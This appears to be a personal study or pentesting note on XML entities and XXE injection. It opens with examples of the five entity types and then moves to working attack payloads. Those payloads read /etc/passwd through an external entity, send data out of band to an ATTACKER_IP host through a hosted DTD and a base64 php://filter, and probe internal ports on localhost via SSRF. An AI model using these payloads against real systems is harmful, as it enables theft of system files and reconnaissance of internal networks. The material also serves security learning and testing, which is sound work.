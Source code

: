 - Document Type Definitions (DTD): used for validation or entity declaration
- XML entities are placeholders for data or code that can be expanded within an XML document.
- five types of entities: 
	- internal entities,

```xml
<!DOCTYPE note [
<!ENTITY inf "This is a test.">
]>
<note>
        <info>&inf;</info>
</note>
```
	
	- external entities,
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY external SYSTEM "http://example.com/test.dtd">
<config>
&external;
</config>

<!-- or -->

<!DOCTYPE note [
<!ENTITY ext SYSTEM "http://example.com/external.dtd">
]>
<note>
        <info>&ext;</info>
</note>

```
	
	- parameter entities,
```xml
<!DOCTYPE note [
<!ENTITY % common "CDATA">
<!ELEMENT name (%common;)>
]>
<note>
        <name>John Doe</name>
</note>
```
	- general entities,
```xml
<!DOCTYPE note [
<!ENTITY author "John Doe">
]>
<note>
        <writer>&author;</writer>
</note>
```
	- character entities.
```xml
<note>
        <text>Use &lt; to represent a less-than symbol.</text>
</note>
```
- Internal DTDs are specified using the `<!DOCTYPE` declaration, while external DTDs are referenced using the `SYSTEM` keyword.

- XXE Example:

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<contact>
<name>&xxe;</name>
<email>test@test.com</email>
<message>test</message>
</contact>

```

- Out of band:
```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://ATTACKER_IP:1337/" >]>
<upload><file>&xxe;</file></upload>
```

- Create new file `sample.dtd` with below content, host it on attacker controlled server, and pass that url in the XML as xxe payload like above example.
```xml
<!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
%oobxxe;
```

```
The DTD begins with a declaration of an entity `%cmd` that points to a system resource. The **`%cmd`** entity refers to a resource within the PHP filter protocol `php://filter/convert.base64-encode/resource=/etc/passwd`. It retrieves the content of `/etc/passwd`, a standard file in Unix-based systems containing user account information. The `convert.base64-encode` filter encodes the content in Base64 format to avoid formatting problems. The **`%oobxxe`** entity contains another XML entity declaration, `exfil`, which has a system identifier pointing to the attacker-controlled server. It includes a parameter named data with `%cmd`, representing the Base64-encoded content of `/etc/passwd`. When `%oobxxe;` is parsed, it creates the `exfil` entity that connects to an attacker's server (`http://ATTACKER_IP:1337/`). The parameter `?data=%cmd` sends the Base64-encoded content from `%cmd`.
```

- Now send below payload 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE upload SYSTEM "http://ATTACKER_IP:1337/sample.dtd">
<upload>
    <file>&exfil;</file>
</upload>
```

- SSRF: Enumerating internal services
```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://localhost:§10§/" >
]>
<contact>
  <name>&xxe;</name>
  <email>test@test.com</email>
  <message>test</message>
</contact>
```